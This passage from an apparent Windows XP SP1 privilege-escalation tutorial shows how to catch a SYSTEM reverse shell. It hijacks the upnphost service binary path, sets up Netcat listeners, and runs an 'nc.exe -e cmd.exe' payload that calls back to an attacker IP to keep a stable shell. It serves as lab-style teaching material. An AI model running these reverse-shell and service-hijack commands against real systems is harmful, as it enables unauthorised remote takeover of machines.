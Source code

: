 Looks perfect! The next thing to do is set up a simple listener on our attacking machine. I prefer to use Netcat for this.

```bash
root@kali> nc -lvnp 4444
```

We are now ready to start the upnphost service and execute our reverse shell via the new binary path we provided.

```powershell
C:\> net start upnphost
```

We have now received a SYSTEM shell on our listener at our attacking machine! But there's another problem. The shell is unstable and it closes after about 30 seconds. Luckily there is a way to solve this. Once we get the unstable shell on port 4444, we will execute another command right away that will establish a 2nd connection to another listener we set up on another port. When the unstable shell is closed, set up your listener again at port 4444 and set up a 2nd listener in another tab on another port. I will set my 2nd listener at port 4445.

```bash
# TAB 1
root@kali> nc -lvnp 4444  
# TAB 2
root@kali> nc -lvnp 4445
```

Next, prepare a payload to send once our connection to the first listener on port 4444 is established. We can simply copy the payload we added in the binary path from our upnphost service, and change the port to the port of our 2nd listener.

```powershell
C:\nc.exe -nv 192.168.0.2 4445 -e C:\WINDOWS\System32\cmd.exe
```

Finally we're ready to get a steady SYSTEM shell. Start the upnphost service again, a new connection will be established to our listener on port 4444. Once this shell is open, paste your payload we just created for a new connection to our listener on port 4445 and execute it. When we now check our listener in TAB 2, we will have a steady SYSTEM shell that will not close after a while.

[Credits to sohvaxus](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)
